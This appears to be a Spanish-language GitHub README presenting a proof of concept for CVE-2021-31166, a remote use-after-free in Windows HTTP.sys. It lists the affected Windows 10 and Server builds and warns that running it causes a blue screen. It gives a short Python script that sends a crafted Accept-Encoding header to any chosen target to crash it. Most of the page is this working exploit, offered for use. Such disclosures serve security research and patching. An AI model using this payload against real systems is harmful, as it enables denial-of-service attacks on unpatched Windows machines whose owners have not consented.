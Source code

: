<languages  />

Impacto de la vulnerabilidad
----------------------------

    Windows Server, version 20H2 (Server Core Installation)
    Windows 10 Version 20H2 for ARM64-based Systems
    Windows 10 Version 20H2 for 32-bit Systems
    Windows 10 Version 20H2 for x64-based Systems
    Windows Server, version 2004 (Server Core installation)
    Windows 10 Version 2004 for x64-based Systems
    Windows 10 Version 2004 for ARM64-based Systems
    Windows 10 Version 2004 for 32-bit Systems

POC
---

⚠️️Aparecerá una pantalla azul cuando se ejecute el POC.

    # Axel '0vercl0k' Souchet - May 16 2021
    import requests
    import argparse

    def main():
        parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
        parser.add_argument('--target', required = True)
        args = parser.parse_args()
        r = requests.get(f'http://{args.target}/', headers = {
            'Accept-Encoding': 'doar-e, ftw, imo, ,',
        })
        print(r)

    main()

GIF
---

![](windows.gif "windows.gif")

Referencia
----------

<https://github.com/0vercl0k/CVE-2021-31166>